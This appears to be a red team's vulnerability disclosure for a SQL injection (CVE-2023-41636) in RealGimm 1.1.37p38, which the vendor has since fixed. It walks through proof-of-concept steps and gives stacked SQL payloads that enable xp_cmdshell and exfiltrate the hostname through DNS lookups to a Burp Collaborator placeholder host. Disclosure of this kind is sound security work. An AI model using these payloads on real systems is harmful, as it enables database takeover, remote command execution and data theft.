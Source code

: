 # CVE-2023-41636 | RealGimm by GruppoSCAI - SQL Injection

A SQL Injection vunerability was found in RealGimm version 1.1.37p38. This vulnerability eventually lead to full database access and remote command execution via xp_cmdshell. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, the application performs an input sanitization operation at front-end level. Therefore, in Burp Proxy, disable the Javascript validation applied by application so that we can insert any malicious character inside the forms.

![Disabling JS in Burp](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/2b182fd0-23aa-4667-99f7-1e1b6d044fa4)


After that, we access the function in which the vulnerability is present by clicking on *Sistema ->  Scheduler -> Processi Schedulati* and we insert a single quote inside the "Data Richiesta Dal" field:

![Single quote insertion](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/6ac516a3-4c6c-4e8d-920a-19a340f74807)


After starting the search by pressing the magnifying glass icon, we can see that the application returns an error indicating the presence of an error in the syntax of the SQL query used, thus indicating the presence of a SQL Injection vulnerability:

![SQL Error](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/11641880-a9e7-4254-8d3b-4f7424250651)


Below the intercepted requests and responses:

![Request and response 1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/6cc599df-00bd-44d8-8b81-bfab0683bd13)

![Request and response 2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d80d1be2-33ec-4c4f-8a93-b20ead48fd89)


Using sqlmap we therefore obtain the banner together with all the available databases:

![Banner extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/0a1435f0-b751-4e0f-a9ed-1f39e7c60514)

![Databases extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/3044ff0a-c646-4a54-bc62-0adb405a737b)


Finally, it is possible to achieve code execution on the host where the mssql server is running by enabling and taking advantage of xp_cmdshell. To do this, execute the following instructions one at a time:

```
') EXEC sp_configure 'show advanced options', 1;--

') RECONFIGURE;--

') EXEC sp_configure 'xp_cmdshell', 1;--

') RECONFIGURE;--

')EXEC xp_cmdshell 'for /F "tokens=1" %i in (''hostname'') do nslookup %i.[burp_collaborator_URL].oastify.com';--

```

![Remote code execution](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/13903cb5-c544-405f-a1a7-77735ff24ef1)


As seen above, it is possible run any command on the underlaying host and exfiltrate data via the DNS protocol.

## Remediation

GruppoSCAI fixed the vulnerability. The fix was subsequently analyzed and was confirmed to be effective.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Paolo Caminati

Francesco Mercatili

Claudio Rimensi
